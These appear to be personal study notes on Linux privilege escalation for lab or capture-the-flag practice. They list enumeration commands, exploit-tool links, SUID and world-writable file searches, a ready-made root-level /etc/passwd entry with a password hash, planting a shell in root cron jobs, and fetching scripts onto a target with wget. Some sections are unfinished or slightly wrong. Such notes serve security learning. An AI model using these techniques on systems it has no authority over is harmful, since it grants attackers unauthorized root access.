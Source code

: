 # Linux Privilege Escalation

## Basics and what to look for

- checklists and stuff:
  - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>

### Step 1: Manual Enumeration

- `hostname` : get hostname of target machine (maybe it has valuable information in name)
- - `uname -a` : print detailed system information about kernel --> useful for finding kernel vulnerabilities
- `proc/version` : proc filesystem provides info about target system processes; may give information on kernel version and additional info (compiler etc.)
- `/etc/issue` : systems can also be identified by looking at this file; usually contains info about OS
- `ps` : running processes with some information about them
  - `ps -A` : all running processes
  - `ps axjf` : view process tree
  - `ps aux` : processes for all users (a), displays user that launched the process (u)and shows processes that are not attached to a terminal (x)
- `env` : show environmental variables
- `sudo -l` : target system may be configured to run some commands with root privs; this command lists all commands the logged in user can run with root privileges
  - sometimes like this you'll find that you're able to **run certain commands as root without the root password**
  - with a misconfigured binary like this we can try to exploit them with `GTFOBins` (Unix binaries that can be exploited by attacker to bypass local security restriction) --> <https://gtfobins.github.io/>
- `ls -la` : no comment necessary
- `id` : provides general overview of user's privilege and group memberships; **can also be used to obtain same information for another user**
- `/etc/passwd` : see further down
  - can easily be cut and converted to useful list for brute-force attacks with: `cat /etc/passwd | cut -d ":" -f 1` or, since real user (i.e. no system users) usually have `home`-directory: `cat /etc/passwd | grep home`
- `history` : look for earalier commands on command line
- `ifconfig`
- `ip route`
- `netstat` : listing existing communications
  - `netstat -a` : show all listening ports and established connections
  - `netstat -at`/`netstat -au` : list only TCP or UDP connections
  - `netstat -l` : list ports in listening mode --> these ports are open!!
  - `netstat -tp` : list connections with service name and PID infor
  - `netstat -ano` : display all sockets, do not resolve names, display timers
- `find` : search target system for important info and potential privilege escalation vectors
  | Command | Purpose |
  | --- | ---|
  | `find . -name flag1.txt` | find the file named “flag1.txt” in the current directory |
  | `find /home -name flag1.txt` | find the file names “flag1.txt” in the /home directory |
  | `find / -type d -name config` | find the directory named config under “/” |
  | `find / -type f -perm 0777` | find files with the 777 permissions (files readable, writable, and executable by all users) |
  | `find / -perm a=x` | find executable files |
  | `find /home -user frank` | find all files for user “frank” under “/home” |
  | `find / -mtime 10` | find files that were modified in the last 10 days |
  | `find / -atime 10` | find files that were accessed in the last 10 day |
  | `find / -cmin -60` | find files changed within the last hour (60 minutes) |
  | `find / -amin -60` | find files accesses within the last hour (60 minutes) |
  | `find / -size 50M` | find files with a 50 MB size |
  | `find / -writable -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -perm -222 -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -perm -o w -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -name perl\*` | Perl?? |
  | `find / -name python\*` | Python?? |
  | `find / -name gcc*` | C?? |

### Step 2: Automated Enumeration

- useful links:
  - <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS>
  - <https://github.com/rebootuser/LinEnum>
  - <https://github.com/mzet-/linux-exploit-suggester>
  - <https://github.com/diego-treitos/linux-smart-enumeration>
  - <https://github.com/linted/linuxprivchecker>

### Step 3: Look for Kernel Exploits

- Linux-Kernel manages communication between components such as memory on the system and applications --> requires kernel to have specific privileges and thus a successful exploit will potentially lead to root privileges
- Methodology:
  - Identify Kernel version
  - search/find exploit code for kernel version of target system (e.g.: <https://www.linuxkernelcves.com/cves>, exploit-db, Google etc.)
    - there are also tools like: `LES (Linux Exploit Suggester)`
  - run exploit

### Step 3: check for files with SUID/GUID bit set

- special type file permission which allows file to run with permissions of whoever the owner is --> if it is root: **BINGO**
  - files can be run with permissions of the files owner/group
- when special permission is given to each user it becomes SUID or SGID
  - when extra bit “4” is set to user(Owner) it becomes SUID (Set user ID)
  - when bit “2” is set to group it becomes SGID (Set Group ID)
- permissions to look for when looking for SUID: `rws-rwx-rwx`
- permissions to look for when looking for SUID: `rwx-rws-rwx`
- **finding SUID/GUID Binaries:**
  - `find / -perm -u=s -type f 2>/dev/null` explained:
    - `find` command
    - `/` search whole file system
    - `-perm` search for files with specific permissions
    - `-u=s` any of the permission bits mode are set for the files
    - `-type f` only search filge
    - `2>/dev/null` suppress errors

### Step 5: can we read/write sensitive files?

- interesting files e.g.:
  - `/etc/passwd` --> plan text file
    - if we have write access to this file: vulnerability that can allow the creation of a root user that we can access
    - file format:
      - total of seven columns separated by colons:
        - Example: `test:x:0:0:root:/root:/bin/bash`
          1. Username: login name
          2. Password: `x` character indicates that encrypted password is stored in `/etc/shadow`
          3. UserID (UID)
             1. UID 0 = reserved for root
             2. UIDs 1-99 reserved for predefined accounts
             3. UIDs 100-999 reserved by system for administrative and system accounts/groups
             4. UID > 999: Users
          4. GroupID
          5. UserID Info
          6. Home directory
          7. Command/Shell: absolute path of command or shell
    - **Exploit** `/etc/passwd`:
      - simple: if we have writable `/etc/passwd` we can
        - write new line entry to create new user...
        - ...add password hash of our choice
        - set the UID, GID and shell to root allowing us to log in as our own root user
      - Example:
        - create compliant password hash: `openssl passwd -1 -salt [salt] [password]`
        - take this value (WATCHOUT: special characters need to be escaped like `$` with `\$`) to create new root user account
          `newusername:<hashvalue>:0:0:root:/root:/bin/bash`
          Example (with \$): `newuser:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`
        - then you can login using the username and password hash with: `su -l <username>`
- Kernel information --> for kernel exploits
- can we read/write sensitive files?
  - world-writable files: files that any authenticated user can read and write to
  - looking at the permissions of these files, we can check if there is any misconfiguration that allows low privilege users to write to sensitive files
- SUID files
- Crontab Contents --> exploiting yet to check

### Step 6: Cron

- what cronjobs are active: `cat /etc/crontab`
- how to exploit:
  - look for cronjobs oder files that are being invoked by cronjob that are owned by root and if they are writable
  - create command that will return a shell and paste it in the file
  - when the file is executed again the script is run as root

### Step 7: Check PATH-Variable

- show PATH: `echo $PATH`
- how to escalate privileges:
  - if we have a SUID binary, we can rewrite the PATH variable to a location of our choosing
  - ??? nochmal checken wie genau das geht, war schlecht beschrieben

## How to get privlege escalation scripts on target machine

- different possibilites:
  - go to directory, where local copy of privesc script is located on the attaker machine and
    - start webserver: `python3 -m http.server 8000`
    - on the target machine: `wget` and grab the file from the local machine
    - then on target machine make the file executable: `chmod +x <filename.sh>`
  - copy the raw code from Zwischenablage in new file on target machine, save the file with `.sh`-extension and make file executable

## Further Reading

- <https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html>
- <https://payatu.com/blog/a-guide-to-linux-privilege-escalation/>
- <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>
- <https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/>
- ...
